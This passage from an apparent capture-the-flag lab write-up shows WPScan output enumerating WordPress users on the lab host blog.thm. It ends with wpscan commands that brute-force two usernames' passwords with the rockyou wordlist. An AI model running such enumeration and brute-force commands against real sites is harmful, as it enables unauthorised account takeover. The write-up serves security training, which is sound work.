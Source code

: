 ```
[i] No themes Found.

[+] Enumerating Users (via Passive and Aggressive Methods)

 Brute Forcing Author IDs -: |==========================================================|

[i] User(s) Identified:

[+] kwheel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] bjoel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Karen Wheeler
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)

[+] Billy Joel
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Requests Done: 397
[+] Cached Requests: 23
[+] Data Sent: 100.657 KB
[+] Data Received: 557.538 KB
[+] Memory used: 275.477 MB
[+] Elapsed time: 00:00:27
```

We now have two users that we can try to brute-force passwords with. I decided to continue using wpscan to brute-force rather than hydra because it is less of a hassle.

```bash
wpscan --url http://blog.thm -U kwheel -P ~/wordlists/passwords/rockyou.txt
wpscan --url http://blog.thm -U bjoel -P ~/wordlists/passwords/rockyou.txt
```
